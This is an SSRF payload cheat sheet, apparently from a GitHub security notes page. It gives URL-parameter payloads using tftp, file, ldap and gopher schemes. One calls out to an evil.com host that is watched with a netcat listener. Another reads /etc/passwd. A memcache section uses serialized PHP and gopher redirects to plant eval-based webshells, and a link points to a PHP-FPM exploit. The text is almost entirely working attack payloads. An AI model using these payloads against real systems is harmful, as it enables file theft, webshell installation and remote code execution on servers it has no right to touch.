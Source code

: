 > TFTP

```
http://safebuff.com/ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

evil.com:# nc -v -u -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout6
```

> file

```
http://safebuff.com/redirect.php?url=file:///etc/passwd
```

> ldap

```
http://safebuff.com/redirect.php?url=ldap://localhost:11211/%0astats%0aquit
```

### PHP-FPM

> PHP-FPM universal SSRF bypass safe_mode/disabled_functions/o [exploit](https://gist.github.com/xl7dev/72f93dba273f4c353a69f770e8f9c4a6)

### SSRF memcache Getshell

> Generate serialize

```
<?php
    $code=array('global_start'=>'@eval($_REQUEST[\'eval\']);');
    echo serialize($code)."\n".strlen(serialize($code));
```

> Output

```
a:1:{s:12:"global_start";s:25:"@eval($_REQUEST['eval']);";} //序列化数据
59  //字符串长度
```

> webshell.php

```
<?php
//gopher可以换成如上其它方式
    header('Location: gopher://[target ip]:11211/_%0d%0aset ssrftest 1 0 147%0d%0aa:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";s:5:"/.*/e";s:7:"replace";s:33:"eval(base64_decode($_POST[ccc]));";}}s:13:"rewritestatus";i:1;}%0d%0a');
?>
```

> back.php

```
<?php
    header('Location: gopher://192.168.10.12:11211/_%0d%0adelete ssrftest%0d%0a');
?>
```
